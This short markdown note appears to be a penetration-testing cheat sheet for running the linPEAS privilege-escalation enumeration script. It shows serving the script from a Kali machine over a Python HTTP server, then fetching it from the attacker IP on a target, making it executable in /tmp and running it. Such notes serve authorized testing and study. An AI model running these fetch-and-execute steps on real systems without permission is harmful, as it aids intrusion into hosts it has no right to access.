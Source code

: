 # linPEAS
- On Kali
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

python3 -m http.server 80
```

- On Target
```
cd /tmp
wget http://<ip>/linpeas.sh

chmod +x ./linpeas.sh
./linpeas.sh | tee output.txt
less -r output.txt
```

# Links
- https://github.com/carlospolop/PEASS-ng
